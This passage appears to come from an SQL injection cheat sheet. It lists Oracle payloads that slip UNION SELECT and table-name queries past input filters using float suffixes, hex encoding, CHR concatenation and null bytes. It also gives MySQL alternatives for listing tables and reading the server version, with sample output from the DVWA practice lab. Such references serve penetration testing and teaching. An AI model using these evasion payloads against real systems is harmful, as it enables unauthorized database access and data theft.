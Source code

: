Oracle
```
1FUNION	SELECT	2	
1DUNION	SELECT	2	
SELECT	0x7461626c655f6e616d65	FROM	all_tab_tables
SELECT	CHR(116)	||	CHR(97)	||	CHR(98)	FROM	all_tab_tables
SELECT%00table_name%00FROM%00all_tab_tables
```

### More MySQL specific

`information_schema.tables` alternative

```sql
select * from mysql.innodb_table_stats;
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| database_name  | table_name            | last_update         | n_rows | clustered_index_size | sum_of_other_index_sizes |
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| dvwa           | guestbook             | 2017-01-19 21:02:57 |      0 |                    1 |                        0 |
| dvwa           | users                 | 2017-01-19 21:03:07 |      5 |                    1 |                        0 |
...
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+

mysql> show tables in dvwa;
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      |
| users          |
+----------------+
```

Version Alternative

```sql
mysql> select @@innodb_version;
+------------------+
| @@innodb_version |
+------------------+
| 5.6.31           |
+------------------+

mysql> select @@version;
+-------------------------+
| @@version               |
+-------------------------+
| 5.6.31-0ubuntu0.15.10.1 |
+-------------------------+

mysql> mysql> select version();
+-------------------------+
| version()               |
+-------------------------+
| 5.6.31-0ubuntu0.15.10.1 |
+-------------------------+
```
